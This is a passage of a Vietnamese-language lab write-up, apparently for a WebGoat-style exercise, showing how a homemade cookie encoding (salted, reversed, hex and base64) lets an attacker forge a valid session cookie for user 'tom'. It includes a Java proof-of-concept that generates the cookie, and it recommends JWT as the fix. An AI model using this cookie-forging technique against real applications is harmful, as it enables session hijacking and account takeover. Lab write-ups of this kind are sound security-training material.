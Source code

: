```java
    decoded = revert(decoded);
    return decoded.substring(0, decoded.length() - SALT.length());
  }
```

- Dựa vào điều này, hacker có thể tạo ra một cookie hợp lệ của một người dùng nào đó từ username của họ và truy cập trái phép phiên đăng nhập của người dùng đó.

### POC

- Để truy cập vào tài khoản Tom thì cần tạo ra một cookie của tài khoản này.
- Code lại logic mã hóa của chương trình trên, sau đó truyền username là Tom vào để tạo ra được cookie.

```java
import org.apache.commons.lang3.RandomStringUtils;
import org.springframework.security.crypto.codec.Hex;

import java.nio.charset.StandardCharsets;
import java.util.Base64;

class SpoofCookie{
    private static final String SALT = RandomStringUtils.randomAlphabetic(10);
    
    public static void main(String[] args){
        String username = "tom";
        String cookie = encode(username);
        System.out.println(cookie);
    }

    public static String encode(final String value) {
        if (value == null) {
            return null;
        }

        String encoded = value.toLowerCase() + SALT;
        encoded = revert(encoded);
        encoded = hexEncode(encoded);
        return base64Encode(encoded);
    }

    private static String revert(final String value) {
        return new StringBuilder(value).reverse().toString();
    }

    private static String hexEncode(final String value) {
        char[] encoded = Hex.encode(value.getBytes(StandardCharsets.UTF_8));
        return new String(encoded);
    }

    private static String base64Encode(final String value) {
        return Base64.getEncoder().encodeToString(value.getBytes());
    }
}
```

- Chạy code trên và nhận được cookie `NGY0NDc5NmE1MjZlNTM3MDQ1NzM2ZDZmNzQ=` , gán cookie này sau đó Access thì sẽ có được truy cập bằng tài khoản Tom → pass được assign này.

### Cách khắc phục

- Thay cách mã hóa tự tạo này thành một phương thức mã hóa bảo mật hơn như Json Web Token.